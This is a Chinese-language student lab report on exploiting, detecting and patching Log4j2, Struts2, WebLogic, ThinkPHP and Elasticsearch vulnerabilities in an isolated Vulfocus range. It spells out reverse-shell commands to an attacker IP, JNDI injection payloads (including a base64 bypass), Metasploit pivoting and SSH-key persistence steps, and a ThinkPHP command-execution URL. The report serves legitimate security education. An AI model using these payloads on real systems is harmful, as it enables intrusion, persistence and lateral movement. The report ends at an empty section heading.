






# 总体报告
---
## 实验目的
**上半学期**
Log4j2 漏洞复现及修复以及DMZ之漏洞利用检测

**下半学期**
组内寻找靶场环境并进行搭建攻破和修复
## 实验仓库
### GitHub仓库：[实验仓库地址](https://github.com/chjhcc/2025-CyberspaceSecurityPractices)


## 实验完成度
### 上半学期
## Log4j漏洞模块
| 任务要求                                                                 | 完成状态 |
|-------------------------------------------------------------------------|----------|
| Vulfocus环境搭建                                                        | ✓        |
| Log4j漏洞复现环境搭建                                                   | ✓        |
| Log4j漏洞利用复现                                                       | ✓        |
| Log4j漏洞靶机上的缺陷代码已完成逆向分析，定位到了漏洞代码片段            | ✓        |
| Log4j漏洞缓解完成，并验证了缓解效果（存在已知绕过方法）                  | ✓        |
| Log4j漏洞修复完成，并验证了修复效果                                      | ✓        |

### 下半学期
# 靶场搭建任务清单

| 任务要求                                   | 完成状态 |
|-------------------------------------------|----------|
| 自定义靶场搭建                             | ✓        |
| 内部子网数量 >= 2                          | ✓        |
| 攻击链路上的靶标更换数量 >= 2               | ✓        |
| 攻击链路验证通过（使用独立IP攻击）          | ✓        |
| 攻击链路上的靶标漏洞利用检测已完成         | ✓        |
| 入口靶标的漏洞缓解已完成                   | ✓        |
| 入口靶标的漏洞修复已完成                   | ✓        |
| 使用ATT&CK Navigator可视化所有考察点       | ✓        |

##
## 上半学期实验总结
### log4j部分

#### 1. 进入 Vulfocus 平台

通过克隆资源中的仓库地址来搭建平台，启动 Vulfocus 环境，并找到 Log4j2 漏洞，启动该漏洞。


#### 2. 进入漏洞环境测试

成功启动漏洞后，获取漏洞的入口靶标并访问该地址，进入当前环境进行测试。


#### 3. 获取容器信息并访问

通过执行 `docker ps` 指令来获取容器的名称和 ID，进入该容器的环境，并将路径下的 `demo.jar` 文件拷贝到宿主机。


#### 4. 反编译与漏洞分析

使用反编译工具分析 `demo.jar` 文件中的源代码，找到潜在的漏洞部分代码。


##### 漏洞代码分析

漏洞代码位于以下部分：

```java
logger.error("{}", payload);
logger.info("{}", payload);
```

该段代码容易导致 Log4j2 漏洞的触发。

#### 5. 漏洞验证

##### 手动验证漏洞

通过使用 DNSLog（dnslog.cn）生成随机域名来手动测试漏洞，并使用 `curl` 命令触发一次域名解析请求。


##### 错误分析

在运行以下命令时，出现报错：

```bash
curl -X POST http://192.168.164.5:24645/he11o -d 'payload="$findi:ldap://ongzd7.dnslog.cn/asas}"'
```

经询问 AI 大模型后得知，漏洞入口靶标的端口不支持 POST 方法。于是修改命令并成功运行。


#### 6. 漏洞利用效果评估

##### 反弹 Shell

通过在靶机中独立测试有效负载，成功连接攻击机并反弹 Shell，验证漏洞成功利用。


##### 监听与获取 Flag

通过监听靶机的 `/tmp` 目录，成功获取包含漏洞 Flag 的文件。


##### 反弹窗口连接报错分析

运行 `bash -i >& /dev/tcp/192.168.164.4/7777 0>&1` 时，出现了报错。进一步分析发现，bash 解释器的环境不支持该语法，导致了语法错误。


##### 漏洞缓解与绕过测试

现在使用直接修改容器中文件的办法来尝试进行缓解

首先为了工作目录不影响其他文件，创建临时文件夹work<br>
<br>
然后把原来的demo.jar直接解包到当前文件下<br>
<br>
现在我们拿到了demo.jar的文件，我们来看其中的文件，发现有log4j的.core文件，核心文件，包含有部分漏洞信息，我们对其进行修改<br>
<br>
<br>
修改完成之后，我们尝试使用查找命令来看有没有删除目标内容<br>
<br>
其后，再添加全局禁用，来保证一定的安全<br>
<br>
然后，我们将文件重新打包<br>


##### 验证缓解效果

我们使用
```bash
curl "http://192.168.8.129:51707/search?q=\${jndi:ldap://192.168.8.132:7777/a}"
```
来验证效果<br>
<br>
请求成功到达了目标服务器（192.168.8.129:51707）/search 路径存在或被 Web 框架处理了。但并没有在监听窗口（nc 监听）看到任何连接，也没有出现服务器尝试访问 192.168.8.132:1389

##### 绕过

再次使用上次的命令’
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:51707/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
发现还是可以有反弹shell<br>
上文中已经发现log4j不能访问，此处可能是因为有其他JNDI被执行，或者在其他的组件的core中仍然存在其他的JNDI执行的部分

##### 修复

选择了升级的选项，在升级之后再次执行以上内容，发现攻击者主机上没有内容输出，说明无法访问到容器内，此时显然已经修复

### DMZ之漏洞利用检测部分

#### 攻破第一个靶标
1. 在受害者主机中启用抓包：
```bash
docker ps #查看struts2-cve-2020_17530:latest容器的ID
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```


2. 在攻击者主机中：
*安装metasploit*：
```bash
sudo apt install -y metasploit-framework
# 初始化 metasploit 本地工作数据库
sudo msfdb init

# 启动 msfconsole
msfconsole
# 确认已连接 pgsql
db_status
# 建立工作区
workspace -a demo
```


3. 通过**上帝视角**我们知道我们要攻击的是struts2漏洞，所以直接在metasploit中搜索struts2漏洞，并使用exp进行攻击：
```bash
search struts2 # 搜索struts2漏洞
## 查找出来后可用info查看信息
info 4
```


*ps：这里有个小插曲是跟着老师配错了exploit*

接着我们就要用合适的exp以及它的payload
```bash
use exploit/multi/http/struts2_multi_eval_ognl
```

* 配置payload：
```bash
search payload ##查找payload
set payload payload/cmd/unix/reverse_bash ##因为要拿到反弹shell才好拿到flag
```

* 使用```show options```查看参数，并使用```set```进行改变参数
```bash
show options
set RHOSTS 192.168.70.4
set rport <your_port>
set LHOST 192.168.70.7
```


* 这时exp参数已经设置完毕了，我们直接使用```exploit -j```进行攻击

**看到 shell seeion1 open，攻击成功**
* 这时我们用```seeions -l``` 查看一下session, 并且使用```sessions -i 1```进入session
**在/tem 目录下执行ls -la，可以看到flag**

* 提交到vulfocus中就可以了

### 立足第一个靶机发现第二到四个靶标
**由于我们拿到了第一个反弹shell，在metasploit中我们可以升级这个shell**
```bash
sessions -u 1 ## 使用sessions -u 1进行升级
```

* 升级这个shell后，我们就能进行更加大胆的操作
* 提交一些基础命令：
```
ipconfig
arp
```


**这里可以看到第一个靶机后还藏着一个网卡以及，能推测出网络后还有至少一层内网，以及这个子网下的主机**

**所以我们需要对这个这个网卡进行扫描**
**但由于它在内网，所以我们需要一个正向代理让路由都通过这个代理即虚拟路由，我们通过这个虚拟路由就能扫描到这个网卡下的所有主机**
```bash
run autoroute -s 192.170.84.0/24 ## 虚拟路由
run autoroute -p
```

* 这样我们就拿到了这个虚拟路由
```Ctrl+z```退出并且在后台挂住这个session
* 接着我们需要在metasploit中搜索端口扫描工具
```bash
search portscan ## 搜索端口扫描工具
use auxiliary/scanner/portscan/tcp ## 选择tcp端口扫描工具
show options ## 查看参数
set RHOSTS 192.170.84.2-254 ##根据子网掩码推导
set ports 7001 ##根据上帝视角
set THREADS 10 ## 设置线程数

run ## 运行扫描
```


**说明7001端口扫描出来是开放的**
* 但是我们还需要验证
```bash
curl http://192.170.84.2:7001/ -vv ## 验证7001端口是否开放
```


**404 说明网络层联通只是应用层错误**
这样就证明了我们的内网确实有三个靶机在7001端口开放，所以就发现了第2到4个靶标

#### 攻破2、3、4靶标
* 由于我们处于上帝视角，我们直到第二层主机存在weblogic漏洞，所以我们直接通过exploit进行攻击
*  搜索weblogic漏洞：
```bash
search cve-2019-2725
use exploit/multi/weblogic/weblogic_deserialization_asyncresponseservice ## 选择weblogic_deserialization_asyncresponseservice这个exp
show options ## 查看参数
set RHOSTS 192.170.84.2 ## 攻击目标
set lport 7001
set lhost 192.168.70.7
run -j
```


```bash
sessions -i 3

ls /tem ## 查看flag
```

* 这样就拿到了第二个flag
* 同理，我们只要改变上面options中的RHOSTS即可，就可以拿到第三个，第四个flag
```bash
set RHOSTS 192.170.84.3
exploit -j
sessions -i 4

ls /tem
```


```bash
set RHOSTS 192.170.84.4
exploit -j
sessions -i 5

ls /tem
```


* 至此，我们拿到了2、3、4个flag，提交到vulfocus中即可

#### 发现第五个靶标
* 我们将刚刚拿到的三个shell全部升级为metepreter shell
```bash
sessions -u 3
sessions -u 4
sessions -u 5
```

* 在每个shell中使用```ipconfig```查看接口
**在192.170.84.4的shell中我们发现了第三个网卡**


**这样就说明了还有第三层内网和子网**

**说明我们找到了第五层靶标**

#### 攻破第五个靶标
* 由于我们只知道网卡，不知道开放的ip和端口，通过**上帝视角**，我们只知道第三层是一个nginx-php-flag:latest的容器，开放的是80端口，我们可以选择用proxychain sock5代理来执行nmap是扫描


* 利用用上述代理我们可以执行```proxy sudo nmap -vv -n -p 80 -Pn -sT 192.169.85.2-254```
* 这样我们就可以扫描这个网段中那些ip是开放的

**这里实验我用的是穷举法**

* 在发现第三张网卡的主机即192.170.84.4的升级shell中再输入一个shell
通过```wget```命令来逐步验证哪些ip是开放的
```bash
wget http://192.169.85.1
wget http://192.169.85.2
wget http://192.169.85.3
...
```
* 按照常理来说，可能要1-254全部运行一遍，但是这里运气好，找到了可以访问的网页

*ps:这里我以为85.1确实是正确的ip，但是其实正确的确实是85.2*
看到有网页回显后，利用linux写法将保存下来，然后使用```cat```命令查看flag
```shell
wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result ## 保存到/tmp/result中并查看
```

* 提交到vulfocus中即可


**这样我们就拿到了所有的flag**

#### 漏洞修复：

查询得知，修复漏洞可以尝试以下几种方法：
1.更新 Struts 2 版本
2.配置安全防护
3.应用临时补丁


##### 对第二种方法进行尝试：配置安全防护

1. 禁用 OGNL 表达式执行

OGNL（Object Graph Navigation Language）是 Struts 2 的核心功能之一，但也是许多漏洞的根源。禁用或限制 OGNL 表达式的执行可以有效防止此类攻击。

>1.1：进入 Docker 容器
终端运行`docker ps -a`查看struts2-cve容器id
运行`docker exec -it <CONTAINER ID> bash` 进入容器


>1.2 在 Struts 2 的配置文件 struts.xml 中禁用 OGNL 表达式执行。可以通过设置一些常量来限制 OGNL 的使用
使用`find / -name "struts.xml"` 查看 struts.xml 文件位置


会看到以下输出
`/usr/src/target/classes/struts.xml`  
`/usr/src/src/main/resources/struts.xml`

发现有存在两个 struts.xml 文件， 查询GPT得知：

/usr/src/target/classes/struts.xml：这个文件应该是构建应用时，Maven 或其他构建工具将资源文件编译或复制到目标目录后生成的文件。这通常是在构建阶段生成的文件，意味着它已经被编译或打包。

/usr/src/src/main/resources/struts.xml：这个文件是源代码中的文件，应该是应用在构建过程中读取的原始文件。一般来说，应该修改源代码中的 struts.xml，然后重新构建应用。

>1.3 查看 struts.xml 文件内容
这里我第一次打开 /usr/src/src/main/resources/struts.xml 显示为空文件，选择对 /usr/src/target/classes/struts.xml 进行修改（此处是错误操作，第一次我使用了vim 路径错误也会创建一个文件，导致我以为是空文件）
使用`cat /usr/src/target/classes/struts.xml` 查看该文件

要禁用 OGNL 表达式执行，只需要在 <struts> 标签内添加一个常量配置项 struts.ognl.allowStaticMethodAccess，其值设置为 false。
 `<constant name="struts.ognl.allowStaticMethodAccess" value="false"/>` 
插入后如图所示

保存后退出


>1.4 重新构建和部署应用
运行构建命令 `mvn clean install` 次命令需要在 /usr/src 中运行，次目录下有所需文件pom.xml

重构有如下类似输出即为成功

重构完成后重启容器


>1.5 返回攻击者主机（kali-2025）再次尝试标靶获取检测漏洞修复是否成功

发现依然能获取到flag，漏洞并没有被修复，以为是用的之前获取flag的终端再次攻击保留了一些之前的数据，尝试打开新终端进行攻击，发现也能获取flag

查找原因发现前面是对 /usr/src/target/classes/struts.xml 进行了修改，`mvn clean install` 重构后会用 /usr/src/src/main/resources/struts.xml 文件覆盖前者，导致规则根本没被写入。

>1.6 对/usr/src/src/main/resources/struts.xml进行同样的修改并重复上述操作
对 /usr/src/src/main/resources/struts.xml 做出修改

再次重构

这次修改后再次进行靶标获取发现依然能得到，继续分析：
docker restart 会重新启动一个已经运行的容器，但它不会重新构建容器镜像或加载新的配置。具体来说，docker restart 会：
停止当前运行的容器。
使用相同的镜像和配置重新启动容器，并不会重新加载任何新的配置或更新。
或许是因为 docker restart 时并没有将修改的规则成功导入，依然是使用旧的规则

>1.7 修改规则后尝试创建一个新容器来确保规则的写入
运行 `docker commit <CONTAINER ID> my_fixed_struts` ，保持原容器 ID 使用 docker commit 将容器的当前状态保存为一个新镜像。

运行复制后的容器 `docker run -d -p 9215:8080 my_fixed_struts`

进入该容器查看规则是否被正确写入

完成上述步骤后再次尝试攻击，发现依然可以获取靶标，或许攻击面未完全修复 OGNL 漏洞：即使在 struts.xml 中禁用了 struts.ognl.allowStaticMethodAccess，仍然可能有其他 OGNL 漏洞路径存在。攻击者可能通过其他方式触发漏洞。


##### 更换修复方式，更新struts2版本

>2.1 已知CVE-2020-17530 这个漏洞已经在 Struts 更高一些的版本中被修复。所以，最直接的修复方式是更新 Struts 至更高版本。


>2.2 查看struts2当前版本 
进入容器后运行`ls`查看当前目录文件，应有'pom.xml'文件

`cat pom.xml`查看版本，能看见图片中蓝框所示部分，其中红色方框全出部分为当前版（这张图片也是后面截的，原版应为2.5.25）


>2.3 修改 struts2-core 的依赖项，将前一步中的2.5.25更改为2.5.28。

保存后使用 `mvn clean install` 更新依赖并重新构建项目，Maven 会自动下载并更新到最新的 Struts2 版本。升级成功后再app/target目录中会多出 's2-059.jar' 和 'maven-archiver' 类似文件


>2.4 编译项目： 
使用以下命令在项目根目录下编译该项目
`mvn clean install`


>2.5 回到攻击者主机再次尝试攻击

发现这次攻击被阻挡，证明升级后的struts2确实修复了CVE-2020-17530这个漏洞


##### 3、修复检测与绕过测试

>3.1对更新后的Struts2容器进行nmap扫描
`nmap -p 55204 192.168.56.102`


Nmap 扫描结果显示 55204 端口是开放的，但其服务被标记为 unknown，说明 Nmap 无法自动识别它的服务类型。这可能意味着：
Struts2 服务运行在该端口，但路径不清楚。
端口可能是 Docker 容器映射的端口，需要检查 Struts2 具体运行在哪个路径。
该端口可能运行了一个代理或中间层（如 WAF），导致直接访问 Struts2 失败。

>3.2使用curl手动扫描
`curl -v http://192.168.56.102:55204/`


curl 访问 http://192.168.56.102:55204/ 返回 404 Not Found，说明该端口的 Web 服务器 Jetty 是正常运行的，但没有正确的路径映射到 .action 处理逻辑。

>3.3
目标是找到 正确的 .action 入口点，然后测试漏洞利用。
使用较为强力的gobuster进行扫描
`gobuster dir -u http://192.168.56.102:55204/ -w /usr/share/wordlists/dirb/common.txt`


gobuster 目录扫描 没有发现有效的路径，这说明：
目标服务器可能没有直接暴露 Web 目录（所有访问 /xxxx 的请求都返回 404）。
Struts2 入口点可能不是常见路径（如 /index.action、/login.action）。
服务器可能配置了 URL 重写或 WAF，阻止了扫描器的正常工作。


## 下半学期实验总结
### 网络靶场的二次搭建和强化学习

#### 实验环境
- 主机：
    - kali victim:192.168.70.4
    - kali attacker:192.168.70.7
-  环境搭建：vulfocus
    - 网卡：
      - 核心网：192.169.85.0/24
      - 三层王：192.169.76.0/24
      - DMZ: 192.170.84.0/24
      - 迷惑网卡: 192.168.100.0/24
    - 漏洞容器
      - vulfocus/elasticsearch-cve_2015_1427:latest
      - vulfocus/thinkphp-cve_2018_1002015:latest
      - vulfocus/redis-cve_2022_0543:latest
      - vulfocus/jenkins-cve_2018_1000861:latest
      - c4pr1c3/vulshare_nginx-php-flag:latest
#### 漏洞简介
1. **elasticsearch-cve_2015_1427**
- Elasticsearch是一个基于Lucene的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于RESTful web接口。Elasticsearch是用Java语言开发的，并作为Apache许可条款下的开放源码发布，是一种流行的企业级搜索引擎。
- 2014年爆出过一个远程代码执行漏洞(CVE-2014-3120),该漏洞产生原因是由于ElasticSearch使用的脚本引擎支持脚本代码MVEL作为表达式进行数据操作，攻击者可以通过MVEL构造执行任意java代码。

- 后来脚本语言引擎换成了Groovy，并且加入了沙盒进行控制，危险的代码会被拦截，结果这次由于沙盒限制的不严格，导致远程代码执行。

2. **thinkphp-cve_2018_1002015**
- ThinkPHP是一个轻量级的中型框架，是从Java的Struts结构移植过来的中文PHP开发框架。它使用面向对象的开发结构和MVC模式，并且模拟实现了Struts的标签库，各方面都比较人性化，熟悉J2EE的开发人员相对比较容易上手，适合php框架初学者。
ThinkPHP的宗旨是简化开发、提高效率、易于扩展，其在对数据库的支持方面已经包括MySQL、MSSQL、Sqlite、PgSQL、
Oracle，以及PDO的支持。ThinkPHP有着丰富的文档和示例，框架的兼容性较强，但是其功能有限，因此更适合用于中小项目的开发。

3. **redis-cve_2022_0543**
- Redis是一种非常广泛使用的缓存服务，但它也被用作消息代理。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。Redis 嵌入了 Lua 编程语言作为其脚本引擎，可通过eval命令使用。Lua 引擎应该是沙盒化的，即客户端可以与 Lua 中的 Redis API 交互，但不能在运行 Redis 的机器上执行任意代码。
- CVE-2022-0543漏洞影响的版本只限于Debian 和 Debian 派生的 Linux 发行版（如Ubuntu）上的 Redis 服务。
安全研究人员发现在 Debian 上，Lua 由 Redis 动态加载，且在 Lua 解释器本身初始化时，module和require以及package的Lua 变量存在于上游Lua 的全局环境中，而不是不存在于 Redis 的 Lua 上，并且前两个全局变量在上个版本中被清除修复了，而package并没有清楚，所以导致redis可以加载上游的Lua全局变量package来逃逸沙箱。

4. **jenkins-cve_2018_1000861**
- Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

- 通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。


- att&ck Navigator


#### 搭建环境
1. 在kali victim中启用上次实验所启用的vulfocus并拉取这个漏洞的镜像
```bash
docker pull vulfocus/redis-cve_2022_0543:latest
docker pull vulfocus/elasticsearch-cve_2015_1427:latest
docker pull vulfocus/thinkphp-cve_2018_1002015:latest
docker pull vulfocus/jenkins-cve_2019_1003000:latest
```
- 并在vulfocus的页面中导入本地镜像


2. 在环境编排处搭建环境


3. 编排时的心路历程
**每一层的漏洞计划都可以远程操作实现漏洞利用，在迷惑网卡内网中，我使用了thinkphp漏洞，在同一层中，我使用了redis漏洞去模拟一个真实的双网卡双容器的环境，而redis中也只有一个容器是可以联通下一层的，也就是说攻击者需要更加细致的搜索和攻击才能访问到真实的内网，而且迷惑网卡开放的端口是80，更加难以排查，在信息收集阶段增大了攻击者的难度**
4. 将这个环境编排后启用**场景**


## 入口靶标和验证与攻破
1. 我们访问到了一个elasticsearch的页面,通过这个页面我们可以查看到一些敏感信息，比如时间，版本，引擎


2. 这几个敏感信息我们可以通过一些漏洞进行利用，查阅后发现了上述的**cve-2015-1427**漏洞
3. 对这个镜像进行漏洞利用性检测
- 首先根据信息，在确定连通性的情况下，可以创建一个```数学公式```的负荷，这是一个groovy脚本,如果输出了我们验证的数学公式，则表示漏洞存在
```bash
curl -XPOST “http://192.168.70.4:<port>/_search?pretty" -d '{
"script_fiedls":{
    "test":{
        "script":"2+3"
        }
    }
}'
```


**我们发现是超时了，并没有验证成功漏洞的存在性，但是也没有显示```groovy disabled```,所以并不能确定这个漏洞是否存在**

根据和```安靖```老师的探讨，我们发现只要输入一个攻击负荷，这个漏洞很快就验证成功了
```bash
curl -X POST "http://<ip>:<port>/website/blog/" -d '{"name":"test"}' #攻击负荷
```

**原因分析**:
之前验证的逻辑是
发送测试脚本：S_test = "2+3"

检查响应：若 R 包含 "test": [5] → 漏洞存在

逻辑表达式：f(S_test) == R_expected

最初验证失败的原因是：空数据库导致查询结果集为空，使脚本执行被跳过（hits.total=0 → 不执行 script_fields）

而这条脚本完成了关键步骤：

graph LR
 A[创建索引/文档] --> B[构建有效查询环境]
 B --> C[激活脚本执行]

**具体原理**：
创建存储结构：
```/website/blog/``` 创建了：
索引(Index): ```website```
类型(Type): ```blog```
```{"name":"test"}``` 插入一条文档(Document)
在文档添加完后，自然的会生成索引。
```
满足存在量词 ∃
通过创建文档，使 ∃ Doc 成立

打破执行约束
空数据库时：∀ Doc, Doc ∉ Database ⇒ Search(Doc) = ∅
插入后：∃ Doc, Doc ∈ Database ⇒ Search(Doc) ≠ ∅
```

4. **在验证成功后，开始进行漏洞利用**
- 使用工具：metasploit
- 漏洞利用步骤：
    1. 初始化metasploit并启用   
    ```bash
    sudo msfdb init
    msfconsole
    db_status # 查看数据库状态
    workspace -a anjing #创建工作空间
    ```
    2. 开始进行漏洞利用
    ```bash
    #信息收集
    db_nmap -p <port> 192.168.70.4 -n -A
    # 查看可用的exploit
    search elasticsearch type:exploit
    # 2015年的漏洞
    use 1
    ```
    
    
    ```ruby
    #  设置参数
    show options
    set RHOSTS 192.168.70.4
    set RPORT <映射端口，每次不一样>
    set LHOST 192.168.70.7
    show payloads
    set payload <random>
    #  利用漏洞
    exploit
    ```
    
    
    3. 拿到shell之后就可以进行flag的获取
    ```shell
    ls /tmp
    ```
    获取后提交到场景中就可以拿分了
    
#### 基于第一层靶标发现内网容器与靶标
1. 入口靶标的打击在实验中拿到的shell是不一定的，所以我们每次在metasploit中对需不需要进行升级shell有一定的取舍
```ruby
# 如果拿到的是普通shell
sessions -u 1 #升级拿到的shell
# 升级后的shell是meterpreter,在这个实验中可能会退出，所以可以进行持久化处理
metepreter> run post/linux/manage/sshkey_persistence
```
2. 对meterpreter容器进行网络扫描和信息收集
```ruby
meterpreter> route
meterpreter> ipconfig
```


**可以看到除了自身的ip之外，还有另外两个网卡和路由存在，所以我们可以判断这个网络是存在另外两个内网的**
```ruby
# 设置路由代理
meterpreter> run autoroute -s 192.168.100.0/24
meterpreter> run  autoroute -s 192.168.85.0/24
meterpreter> run autoroute -p # 查看路由
meterpreter> background
# 对特定的网段进行端口扫描
msf6> use  auxiliary/scanner/portscan/tcp
msf6> set RHOSTS 192.168.100.2-254
msf6> set PORTS 80 #通常的http端口
msf6> set THREADS 10
msf6> run
msf6> hosts #查看存活主机
```


**确定了主机的存活和端口的开放，接下来就是进行漏洞利用了**

3. **socks代理**
先测试网络联通性是否正常
```shell
# 在刚刚拿到的第一个终端中
meterpreter > shell
curl  http://192.168.100.2
curl  http://192.168.100.3
```

测试网络联通性正常，接下来进行socks代理
```ruby 
msf6> search socks
msf6> use auxiliary/server/socks_proxy
msf6> run
```
因为在上次的实验中,已经将socks5的规则写入终端了，所以这里不再重复
```bash
sudo lsof -i:1080 #  查看1080端口
proxy chain curl -I 192.168.100.2 # 测试socks代理
```


**这里收集到了极其重要的信息，```5.1.30版本的thinkphp```漏洞,使用的php/7.2.12版本**
可以直接搜索到这个漏洞的[漏洞报告](https://paper.seebug.org/760/)

4. **漏洞利用**
首先直接在metasploit中搜索thinkphp漏洞
```ruby
search thinkphp
use exploit/unix/webapp/thinkphp_rce
show payloads
set payload <>
set RHOSTS 192.168.100.2
set RPORT 80
```

**但是在利用时，一直报错为无法解析thinkphp的版本，因此我很难利用这个exploit直接使用漏洞,而且从上帝视角中,我知道这个是迷惑内网，因此我只需要拿到我的flag就可以，因此我直接使用一个现成的poc利用了漏洞**
将poc在浏览器中访问输入:
```
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
```


用相同的方式访问拿到另一个容器的flag,**这之后通过小组成员的攻破了所有的靶标，拿到了所有的flag**


## 第一层内网渗透攻击
1.首先尝试升级入口靶标检测的shell为meterpreter shell(便于后面建立代理等系列工作)


